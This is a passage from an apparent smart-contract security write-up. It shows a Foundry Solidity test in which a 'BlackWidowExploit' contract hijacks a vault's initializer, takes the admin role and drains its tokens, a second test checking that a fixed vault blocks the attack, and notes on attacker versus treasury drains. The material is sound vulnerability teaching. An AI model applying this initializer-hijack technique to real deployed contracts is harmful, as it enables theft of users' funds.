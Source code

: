 ```solidity
        exploit = new BlackWidowExploit(address(vault), address(mockToken), payable(blackWidow));
    }

    /// @notice Demonstrates the full exploit against the vulnerable vault
    function test_Exploit_AllVulnerabilities() public {
        // Vault should start with 10,000 MKT
        assertEq(mockToken.balanceOf(address(vault)), 10_000 ether);

        // Ensure attacker has no roles initially
        assertEq(vault.admins(blackWidow), false);
        assertEq(vault.admins(address(exploit)), false);

        // Execute the exploit (hijack init + drain vault)
        vm.prank(blackWidow);
        exploit.exploitVault();

        // Exploit contract now has admin role
        assertEq(vault.admins(address(exploit)), true);

        // Vault should be drained
        assertEq(mockToken.balanceOf(address(vault)), 0);
        assertEq(mockToken.balanceOf(treasury), 10_000 ether);
    }

    /// @notice Ensures the fixed vault is properly protected
    function test_PreventExploits_FixedContract() public {
        // Deploy and initialize the fixed vault
        fixedVault = new FixedRedRoomVault("FixedRRT", "FRRT");
        fixedVault.initialize(redRoomAdmin, redRoomAdmin, treasury);

        // Attempt re-initialization should revert
        vm.startPrank(blackWidow);
        vm.expectRevert(bytes("InvalidInitialization()"));
        fixedVault.initialize(blackWidow, blackWidow, treasury);
        vm.stopPrank();

        // Attempt to call emergencyWithdraw without permission should fail
        vm.prank(blackWidow);
        vm.expectRevert();
        fixedVault.emergencyWithdraw(address(mockToken), 1_000 ether);
    }
}
```
---
## Why “funds go to treasury” matters (detailed)

* **Difference between “drain to attacker” vs “drain to treasury”**:

  * *Drain to attacker*: attacker directly receives tokens on withdrawal - attacker profit immediate.
  * *Drain to treasury*: tokens leave the vault and land in `treasury`. If `treasury` is attacker-controlled, attacker wins. If `treasury` is a protocol multi-sig or other safe address, attacker still damages the vault (denial or theft of control) but doesn't directly profit unless able to move treasury funds.
